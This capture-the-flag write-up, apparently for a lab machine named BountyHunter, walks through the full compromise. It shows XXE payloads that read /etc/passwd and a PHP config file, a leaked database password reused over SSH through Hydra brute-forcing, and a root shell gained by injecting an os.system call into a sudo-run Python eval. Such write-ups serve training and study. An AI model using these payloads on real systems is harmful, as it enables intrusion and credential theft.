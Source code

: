 
# 💫 Enum
***
### Nmap Scan
```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

***

## 💎 XXS vuln

A submit Form , On Intercepting Request using `Burp` 
- data was tranfered in `XML` in `bas64` encoding
- `XXE` Vuln (`Among OWASP Top 10`)
- payload for `LFI` to get content of `/etc/passwd` file  

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<bugreport>
<title>&xxe;</title>
<cwe>d</cwe>
<cvss>a</cvss>
<reward>150</reward>
</bugreport>
```

Content of **`/etc/passwd`**

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

- Another Payload to get Contents of `db.php` Since Its not directly Accessable 

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php">]>
<bugreport>
<title>&xxe;</title>
<cwe>d</cwe>
<cvss>a</cvss>
<reward>150</reward>
</bugreport>
```

Content of **`db.php`**

```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

---

# ♻️ Footholding

At this moment we have `Bunch of Usernames` and a `Single password`

### Using Hydra 
Brute Forcing The `Usernames` with `Specific password` on `SSH` Since its the only other open PORT

```
[22][ssh] host: 10.10.11.100   login: development   password: m19RoAU0hP41A1sTsq6K
```

---

# ❎ Prev-ECS

Using Command : `sudo -l`

User `development` may run the following commands on bountyhunter:
    (root) NOPASSWD: `/usr/bin/python3.8` `/opt/skytrain_inc/ticketValidator.py`
    
    
Reading the File `/opt/skytrain_inc/ticketValidator.py`

```python
def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

From the reading the `invalid-Tickets` avalible on machine and `eval` function in The above code , can make a own ticket to get root


```text
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**32+75 == 75 or __import__('os').system('/bin/sh')**
##Issued: 2021/04/06
#End Ticket
```

***
***

# ➕ Resouces

- [Onehackman XXE Medium](https://medium.com/@onehackman/exploiting-xml-external-entity-xxe-injections-b0e3eac388f9)

- [Owasp XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

- [PortSwigger | Web Security | XXE](https://portswigger.net/web-security/xxe)

---
